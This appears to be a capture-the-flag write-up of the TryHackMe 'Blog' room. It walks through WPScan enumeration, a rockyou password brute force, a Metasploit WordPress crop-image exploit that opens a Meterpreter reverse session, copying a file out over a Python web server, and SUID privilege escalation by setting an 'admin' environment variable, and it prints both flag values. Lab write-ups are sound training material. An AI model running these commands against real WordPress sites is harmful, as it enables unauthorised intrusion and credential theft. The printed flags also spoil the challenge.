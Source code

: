 ```yaml
---
title: "TryHackMe - Blog"
date: 2025-03-26 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [wordpress, exploitation, metasploit, brute force]

---
```


## Introduction

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

## Reconnaissance

```console
nmap -sC -sV -Pn blog.thm  
```
```console
wpscan --url http://www.blog.thm 
```

From the scans, I learn that the WordPress version is 5.0, and I launch Metasploit in search of ready-made exploits.


```console
msfconsole
search wordpress 5.0
```

I see several potential exploits to use.


```yaml
0   exploit/multi/http/wp_crop_rce                           2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1   exploit/unix/webapp/wp_property_upload_exec              2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability
   2   exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce    2023-05-31       excellent  Yes    Wordpress File Manager Advanced Shortcode 2.3.2 - Unauthenticated Remote Code Execution through shortcode
   3     \_ target: PHP                                         .                .          .      .
   4     \_ target: Unix Command                                .                .          .      .
   5     \_ target: Linux Dropper                               .                .          .      .
   6     \_ target: Windows Command                             .                .          .      .
   7     \_ target: Windows Dropper                             .                .          .      .
   8   exploit/multi/http/wp_litespeed_cookie_theft             2024-09-04       excellent  Yes    Wordpress LiteSpeed Cache plugin cookie theft
   9     \_ target: PHP In-Memory                               .                .          .      .
   10    \_ target: Unix In-Memory                              .                .          .      .
   11    \_ target: Windows In-Memory                           .                .          .      .
   12  auxiliary/scanner/http/wp_woocommerce_payments_add_user  2023-03-22       normal     Yes    Wordpress Plugin WooCommerce Payments Unauthenticated Admin Creation
   13  auxiliary/scanner/http/wp_registrationmagic_sqli         2022-01-23       normal     Yes    Wordpress RegistrationMagic task_ids Authenticated SQLi

```

In this case, I decide to use **exploit/multi/http/wp_crop_rce**. However, to run it, I will need the username and password of the user.

```yaml
Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    *yes*      The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-me
                                         tasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if pro
                                         vided)
   USERNAME                    *yes*       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


```

I use this again with **wpscan** 

```console
wpscan --url blog.thm -P /usr/share/wordlists/rockyou.txt
```

I find two users: **kwheel** and **bjoel** 


```yaml
[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```

I will now try to obtain the password for this account using the bruteforce method. I can do this in several ways, for example by using **Hydra**, but in this case, I decided to stick with **WPScan**.

```console
wpscan --url blog.thm --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt 
```

After a short while, I manage to obtain the password using the bruteforce method.

```yaml
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1                                                                              
Trying kwheel / westham Time: 00:01:52 <                           > (2865 / 14347257)  0.01%  ETA: ??:??:??
```

I return to Metasploit to complete the exploit configuration.

```console
> set RHOST [MACHINE_IP]
> set LHOST [MY_IP]
> set password cutiepie1
> set username kwheel
```

and I run it

```console
> exploit
```
It was successful.
```yaml
[*] Meterpreter session 1 opened (10.8.x.x:4444 -> 10.10.x.x32870) at 2025-03-26 09:00:46 -0400
```

I check if I can use commands through Meterpreter : 

```yaml
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : blog
OS          : Linux blog 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64
Meterpreter : php/linux
```

Everything looks fine, so I proceed to the regular system shell

```console
> shell
> script -qc /bin/bash /dev/null
```

I proceed to search the users' files for flags. I find the file **user.txt** in the bjoel directory, but it is not what I'm looking for. There is also a .pdf file here


```yaml
www-data@blog:/home/bjoel$ ls
ls
Billy_Joel_Termination_May20-2020.pdf  user.txt
www-data@blog:/home/bjoel$ cat user.txt
cat user.txt
You won't find what you're looking for here.

TRY HARDER

```

I start a simple Python server on the target machine to download the .pdf file to my computer

```console
> python3 -m http.server
```

and 

```console
> wget http://blog.thm:8000/Billy_Joel_Termination_May20-2020.pdf
```
on my machine.

```yaml
--2025-03-26 09:15:11--  http://blog.thm:8000/Billy_Joel_Termination_May20-2020.pdf
Resolving blog.thm (blog.thm)... 10.10.73.119
Connecting to blog.thm (blog.thm)|10.10.73.119|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69106 (67K) [application/pdf]
Saving to: ‘Billy_Joel_Termination_May20-2020.pdf’

Billy_Joel_Termination_May 100%[========================================>]  67.49K   160KB/s    in 0.4s    

2025-03-26 09:15:11 (160 KB/s) - ‘Billy_Joel_Termination_May20-2020.pdf’ saved [69106/69106]

```

From the email content, I learn that Billy Joel has been fired

```
You have been terminated for the following reasons:
• Repeated offenses regarding company removable media policy
• Repeated offenses regarding company Acceptable Use Policy
• Repeated offenses regarding tardiness
```

I proceed with the privilege escalation attempt. The first step is to search for SUID files that I can use for escalation.

```console
> find / -perm -u=s -type f 2>/dev/null
```

Among the list of files, my attention was drawn to :

**/usr/sbin/checker**

I try to run it

```console
> usr/sbin/checker
```

However, the program tells me that I am not an administrator

```yaml
/usr/sbin/checker
Not an Admin
```

I analyze the code using the tool **ltrace**

```yaml
> ltrace /usr/sbin/checker

getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++

```

**getenv("admin) = nil** this means that the **admin** environment variable does not exist at the moment in the process environment. I try to set the admin environment variable manually to attempt to gain administrator privileges.

```bash
export admin=true
```

And I run the program again.

I have root privileges!

I search through the files on the machine to find and read the flags.

```yaml
root@blog:/# find / -type f -name "user.txt" 2>/dev/null
find / -type f -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
```

and 

```console
find / -type f -name "root.txt" 2>/dev/null
```


<br>**user.txt :** c8421899aae571f7af486492b71a8ab7 
<br>**root.txt:**  9a0b2b618bef9bfa7ac28c1353d9f318